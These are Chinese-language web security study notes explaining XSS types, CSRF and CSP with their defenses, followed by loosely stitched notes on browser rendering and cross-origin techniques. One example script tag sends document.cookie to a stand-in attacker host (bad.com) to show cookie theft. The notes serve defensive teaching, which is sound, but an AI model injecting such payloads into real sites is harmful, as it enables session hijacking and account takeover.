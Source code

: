 1、XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。
举一个简单的例子
在 a.com 的搜索输入框中输入如下内容，并提交请求
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
如果前端没有进行过滤，浏览器地址可能变为：
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。
XSS 攻击类型一般分为三种：
反射型 XSS
反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。
储存型 XSS
存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。
DOM Based XSS
基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。
防范 XSS
对于 XSS 攻击，我们可以做如下防范：
输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。
输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。
HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。

CSRF
CSRF (Cross Site Request Forgery)，即跨站请求伪造。简单的理解是，攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。
举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中发送本地保存的 cookie 到网址 A，A 网站收到 cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。

防范 CSRF
对于 CSRF 攻击，我们可以做如下防范：
验证码。应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。
Referer Check。HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 Referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。
Anti CSRF Token。目前比较完善的解决方案是加入 Anti-CSRF-Token，即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token 和 cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。

CSP(内容安全策略)
CSP(Content Security Policy) 即内容安全策略，主要目标是减少、并有效报告 XSS 攻击，其实质就是让开发者定制一份白名单，告诉浏览器允许加载、执行的外部资源。即使攻击者能够发现可从中注入脚本的漏洞，由于脚本不在白名单之列，浏览器也不会执行该脚本，从而达到了降低客户端遭受 XSS 攻击风险和影响的目的。
默认配置下，CSP 甚至不允许执行内联代码 (<script> 块内容，内联事件，内联样式)，以及禁止执行eval(), setTimeout 和 setInterval。为什么要这么做呢？因为制定来源白名单依旧无法解决 XSS 攻击的最大威胁：内联脚本注入。浏览器无法区分合法内联脚本与恶意注入的脚本，所以通过默认禁止内联脚本来有效解决这个问题。
事实上我们并不推荐使用内联脚本混合的开发方式，使用外部资源，浏览器更容易缓存，对开发者也容易阅读理解，并且有助于编译和压缩。当然，如果不得不需要内联脚本和样式，可以通过设置 unsafe-inline，来解除这一限制。





XSS(Cross Site Scripting)是跨站脚本攻击，为了区分CSS，所以缩写为XSS。XSS攻击方式是往Web页面插入恶意的 JavaScript 代码，当用户浏览网页的时候，插入的代码就是被执行，从而达到攻击的目的。
其中应用比较多的一个就是，在网页一些公用的交互区域。比如搜索的文本框，除了可以输入一些关键字，还可以输入一些 JavaScript 代码，一旦代码点击搜索，代码就会被执行，达到攻击的目的。如下例子
<script>alert(document.cookie);</script>

在文本框中输入以上代码，然后点击提交，就会把用户的cookie弹出来。
XSS防范
1.将重要的cookies标记为HTTP ONLY，让JavaScript代码无法调用，只有http能调用。或者将重要的信息保存在session里面。
2.只允许用户输入我们期望的数据。如消费金额框只能输入数字和小数点。
3.对数据进行加密处理。
4.过滤或者移除特殊的HTML标签，过滤JavaScript代码等。
2、CSRF（Cross-site request forgery）是跨站请求伪造。XSS利用站点内的信任用户，与XSS不同，CSRF是通过伪装来自受信任用户，在受信任的网站进行请求，盗取信息。其实就是攻击者盗用了受害者的身份，以受害者的名义向网站发送恶意请求。

CSRF的防御
1.在表单里增加Hash值，以认证这确实是用户发送的请求，然后在服务器端进行Hash值验证。
2.验证码：每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。
3.修改，增加重要信息，比如密码，个人信息的操作，尽量使用post。避免使用get把信息暴露在url上面。
5.渲染过程，原理
1.浏览器通过DNS对URL进行解析，找出对应的IP地址；
2.向IP地址发起网络请求，进行http协议会话：客户端发送报头（请求报头），服务端回馈报头（响应报头）
3.服务器根据请求，交给后台处理，处理完成后返回文件数据，浏览器接收文件数据（HTML、JS、CSS、图象等）；返回一个页面（根据页面上的外链的URL重新发送请求获取）
4.浏览器接收文件完毕，对加载到的资源进行语法解析，以及相应的内部数据结构（网页渲染）
跨域
1、 jsonp
2、 document.domain + iframe
3、 location.hash + iframe
4、 window.name + iframe
5、 postMessage
6、 跨域资源共享（CORS）
7、 nginx代理
8、 nodejs中间件代理
9、 WebSocket协议

